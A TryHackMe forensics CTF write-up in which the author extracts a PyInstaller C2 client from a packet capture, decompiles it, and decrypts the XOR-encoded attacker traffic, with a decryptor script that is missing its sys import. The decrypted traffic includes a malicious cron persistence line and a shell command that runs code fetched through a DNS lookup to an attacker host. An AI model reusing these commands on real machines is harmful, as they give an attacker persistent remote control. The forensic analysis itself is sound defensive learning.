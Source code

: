 ```yaml
---
title: SeeTwo
date: 2024-12-19
categories: [TryHackMe, CTF]
tags: [tryhackme, ctf, reverse, wireshark, pyinstaller, c2, script]     # TAG names should always be lowercase
comments: false
image: /assets/img/tryhackme/ctf/seetwo/banner.png
---
```


> This [room](https://tryhackme.com/r/room/seetworoom) is focused on digital forensics, we are given a packet capture file that we should investigate in order to analyze the suspicious behavior.

## Start of the investigation

Once we unzipped the evidence file, we can take a brief look at the pcap file, we mainly see some SSH traffic which is encrypted but a **HTTP GET** on a file called `/base64_client` :

![basefile](/assets/img/tryhackme/ctf/seetwo/1.png)

Thanks to **Wireshark**, we can export the HTTP object (so the `base64_client` file) by going to `File > Export Objects > HTTP` and then selecting our file.

![httpobject](/assets/img/tryhackme/ctf/seetwo/2.png)

Once we saved it, we can decode it to obtain the original file.

```shell
base64 -d base64_client > decodedfile
```

By using the `file` command, we see that this file is an **ELF binary** :

```shell
$ file decodedfile
decodedfile: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7714ff204a07dc0d042276bab94a99badd4276f0, for GNU/Linux 2.6.32, stripped
```

## Reverse the binary

Using the `strings` command, we can extract all the strings contained in the binary and we see different interesting parts :

![strings1](/assets/img/tryhackme/ctf/seetwo/5.png)

![strings2](/assets/img/tryhackme/ctf/seetwo/6.png)

At first, I did not see what I could figure out with those strings (and importing the file into Ghidra did not help much more) so I tried to find any key words that could catch my eye.

According to the strings, **PyInstaller** (which is a program that bundles a Python application and all its dependencies into a single package) tried to open some file.

As we know its use, we can search for any tools that could help us extract what is containing the **decodedfile**. After a brief search on Google, we find a web tool called [pyinstxtractor](https://pyinstxtractor-web.netlify.app/) that we use to extract the files that will help us in order to investigate the behavior of the python program.

![extractor](/assets/img/tryhackme/ctf/seetwo/7.png)

The tool has done its job well and even tells us that we got two entry points being `pyiboot01_bootstrap.pyc` and `client.pyc` (the second one sounds more appealing).

So we will use **uncompyle6** to uncompile it and retrieve the original `.py` file.

```shell
$ uncompyle6 -o . client.pyc
client.pyc --
Successfully decompiled file
```

Great! Now we can take a look at it!

![client](/assets/img/tryhackme/ctf/seetwo/9.png)

It seems like this file is a script used to create a **C2 channel** on the target machine. It connects to the machine with the IP **10.0.2.64** on port **1337**, decodes and decrypts the received command, executes it and retrieves the output, then encodes and encrypts the results to send it back to the C2 server.

## Decrypt the data

Hence, we could use this code and the hardcoded **key** to decrypt some messages sent by (and to) the C2 server.

Looking at the traffic on **Wireshark**, there is indeed some communication between those two machines, sent to port **1337** :

![wireshark](/assets/img/tryhackme/ctf/seetwo/10.png)

Using chatGPT, we create a python script that will be used to decrypt the data, here it is :

```python
import base64

# Function to perform XOR decryption
def xor_crypt(data, key):
    key_length = len(key)
    decrypted_data = []
    for i, byte in enumerate(data):
        decrypted_byte = byte ^ key[i % key_length]
        decrypted_data.append(decrypted_byte)
    return bytes(decrypted_data)

# Define the key (must match the key used for encryption)
key = "[REDACTED]".encode("utf-8") 

# Replace this with the intercepted Base64-encoded encrypted data
captured_data = "YOUR_CAPTURED_DATA"

# Step 1: Split the intercepted data using the separator
parts = captured_data.split("AAAAAAAAAA")
if len(parts) != 2:
    print("Invalid data format. Check the separator and data.")
    sys.exit(1)

# Step 2: Decode the Base64 data for the encrypted result
try:
    encrypted_result = base64.b64decode(parts[1])
except Exception as e:
    print(f"Error decoding Base64: {e}")
    sys.exit(1)

# Step 3: Decrypt the result using XOR
decrypted_result = xor_crypt(encrypted_result, key)

# Step 4: Print the decrypted result
print("Decrypted Data:", decrypted_result)
```

Then, using Wireshark's `Follow TCP Stream` option, we can easily distinguish the data sent and copy it into our script to decrypt it.

![tcpstream](/assets/img/tryhackme/ctf/seetwo/11.png)

When we write the data from Wireshark and execute the script, it shows us what commands the attacker used on the target machine through this C2 channel :

```shell
$ python3 decryptor.py
Decrypted Data: b'id'
```
We can do the same for the rest of the data, answer the different questions and then find the flag.

```shell
$ python3 decryptor.py
Decrypted Data: b'* * * * * echo L2Jpbi9za[REDACTED]bGR9LnRobSki | base64 | sh\n'

$ echo "L2Jpbi9za[REDACTED]bGR9LnRobSki" > flag.txt

$ base64 -d flag.txt                                                                        
/bin/sh -c "sh -c $(dig [...] @ns.THM{FLAG}.thm)"#                                                                 
```